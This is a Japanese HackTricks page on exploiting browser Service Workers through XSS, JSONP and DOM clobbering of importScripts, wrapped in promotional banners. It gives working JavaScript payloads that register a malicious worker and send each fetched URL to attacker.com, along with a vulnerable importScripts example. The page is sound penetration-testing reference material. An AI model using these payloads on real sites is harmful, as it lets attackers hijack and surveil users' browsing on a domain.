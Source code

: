 # Service Workersの悪用

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong>から<strong>AWSハッキングをゼロからヒーローまで学ぶ</strong>！</summary>

- **サイバーセキュリティ企業**で働いていますか？ **HackTricksで会社を宣伝**してみたいですか？または、**PEASSの最新バージョンにアクセス**したいですか？または、**HackTricksをPDFでダウンロード**したいですか？[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[NFT](https://opensea.io/collection/the-peass-family)コレクションを見つけます
- [**公式PEASS＆HackTricks swag**](https://peass.creator-spring.com)を手に入れます
- [**💬**](https://emojipedia.org/speech-balloon/) [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、または**Twitter**で私をフォローする🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**。**
- **ハッキングトリックを共有するために** [**hacktricksリポジトリ**](https://github.com/carlospolop/hacktricks) **と** [**hacktricks-cloudリポジトリ**](https://github.com/carlospolop/hacktricks-cloud) **にPRを提出してください。**

</details>

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

最も重要な脆弱性を見つけて修正できるようにしましょう。Intruderは、攻撃対象の範囲を追跡し、積極的な脅威スキャンを実行し、APIからWebアプリやクラウドシステムまでの技術スタック全体で問題を見つけます。[**無料でお試しください**](https://www.intruder.io/?utm_source=referral\&utm_campaign=hacktricks) 今日。

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

***

## 基本情報

**サービスワーカー**は、ブラウザでバックグラウンドで実行されるスクリプトであり、Webページやユーザーの操作を必要としない機能を可能にし、**オフラインおよびバックグラウンド処理**の機能を強化します。サービスワーカーの詳細情報は[こちら](https://developers.google.com/web/fundamentals/primers/service-workers)で見つけることができます。脆弱なWebドメイン内のサービスワーカーを悪用することで、攻撃者はそのドメイン内のすべてのページとの被害者のやり取りを制御できます。

### 既存のサービスワーカーの確認

既存のサービスワーカーは、**開発者ツール**の**アプリケーション**タブの**サービスワーカー**セクションで確認できます。別の方法として、より詳細なビューを得るために[chrome://serviceworker-internals](https://chromium.googlesource.com/chromium/src/+/main/docs/security/chrome%3A/serviceworker-internals)を訪れることができます。

### プッシュ通知

**プッシュ通知の許可**は、**サービスワーカー**が直接サーバーと通信する能力に直接影響を与えます。許可が拒否されると、サービスワーカーの潜在的な脅威を抑制します。逆に、許可を与えると、潜在的な脆弱性の受信と実行を可能にすることでセキュリティリスクが増加します。

## サービスワーカーの作成に対する攻撃

この脆弱性を悪用するには、次のものを見つける必要があります：

- サーバーに**任意のJSファイルをアップロード**する方法と、アップロードされたJSファイルのサービスワーカーをロードする**XSS**
- **出力を操作できる脆弱なJSONPリクエスト**と、**任意のJSコードで出力を操作**することができる**XSS**、そして**悪意のあるサービスワーカーをロードするペイロード**でJSONPをロードする**XSS**。

以下の例では、`fetch`イベントをリッスンし、**取得されたURLを攻撃者のサーバーに送信する新しいサービスワーカーを登録**するコードを示します（これは**サーバーにアップロード**するためのコードまたは**脆弱なJSONP**応答を介してロードするためのコードです）：
```javascript
self.addEventListener('fetch', function(e) {
e.respondWith(caches.match(e.request).then(function(response) {
fetch('https://attacker.com/fetch_url/' + e.request.url)
});
```
そして、これが**ワーカーを登録**するコードです（**XSS**を悪用して実行できるはずのコード）。この場合、**攻撃者**のサーバーに**GET**リクエストが送信され、サービスワーカーの**登録**が成功したかどうかが**通知**されます：
```javascript
<script>
window.addEventListener('load', function() {
var sw = "/uploaded/ws_js.js";
navigator.serviceWorker.register(sw, {scope: '/'})
.then(function(registration) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/success", true);
xhttp2.send();
}, function (err) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/error", true);
xhttp2.send();
});
});
</script>
```
脆弱なJSONPエンドポイントを悪用する場合は、値を`var sw`の内部に配置する必要があります。例：
```javascript
var sw = "/jsonp?callback=onfetch=function(e){ e.respondWith(caches.match(e.request).then(function(response){ fetch('https://attacker.com/fetch_url/' + e.request.url) }) )}//";
```
**Service Worker (SW)** の悪用に特化した **C2** があり、[**Shadow Workers**](https://shadow-workers.github.io) と呼ばれており、これらの脆弱性を悪用するのに非常に役立ちます。

**24時間キャッシュディレクティブ** は、XSSの脆弱性修正後、オンラインクライアントの状態を前提として、悪意のあるまたは侵害された **service worker (SW)** の寿命を最大で24時間に制限します。脆弱性を最小限に抑えるために、サイトの運営者は SW スクリプトの Time-To-Live (TTL) を下げることができます。開発者はまた、迅速な無効化のために [**service worker kill-switch**](https://stackoverflow.com/questions/33986976/how-can-i-remove-a-buggy-service-worker-or-implement-a-kill-switch/38980776#38980776) を作成することが推奨されています。

## DOM Clobbering を介した SW での `importScripts` の悪用

Service Worker から呼び出される **`importScripts`** 関数は、**異なるドメインからスクリプトをインポート** することができます。この関数が **攻撃者が変更できるパラメータ** を使用して呼び出された場合、彼は **自身のドメインから JS スクリプトをインポート** して XSS を取得できます。

**これは CSP の保護をバイパスします。**

**脆弱なコードの例:**

* **index.html**
```html
<script>
navigator.serviceWorker.register('/dom-invader/testcases/augmented-dom-import-scripts/sw.js' + location.search);
// attacker controls location.search
</script>
```
* **sw.js**
```javascript
const searchParams = new URLSearchParams(location.search);
let host = searchParams.get('host');
self.importScripts(host + "/sw_extra.js");
//host can be controllable by an attacker
```
### DOM Clobberingを使用する

DOM Clobberingについての詳細は、以下を確認してください:

{% content-ref url="dom-clobbering.md" %}
[dom-clobbering.md](dom-clobbering.md)
{% endcontent-ref %}

SWが**`importScripts`**を呼び出すURL/ドメインが**HTML要素内にある**場合、DOM Clobberingを使用してそれを変更し、SWが**自分のドメインからスクリプトを読み込むように**することが可能です。

これの例については、参照リンクを確認してください。

## 参考文献

* [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

最も重要な脆弱性を見つけて、迅速に修正できるようにしましょう。Intruderは攻撃対象を追跡し、積極的な脅威スキャンを実行し、APIからWebアプリ、クラウドシステムまで、技術スタック全体で問題を見つけます。[**無料でお試しください**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) 今すぐ。

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}


<details>

<summary><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>!</strong></summary>

* **サイバーセキュリティ企業**で働いていますか？ **HackTricksで会社を宣伝**したいですか？または、**PEASSの最新バージョンにアクセス**したいですか？または、**HackTricksをPDFでダウンロード**したいですか？[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[NFTs](https://opensea.io/collection/the-peass-family)コレクションを見つけます
* [**公式PEASS＆HackTricks swag**](https://peass.creator-spring.com)を手に入れます
* **💬** [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**をフォロー**してください。
* **ハッキングトリックを共有するために** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **と** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **にPRを提出**してください。

</details>
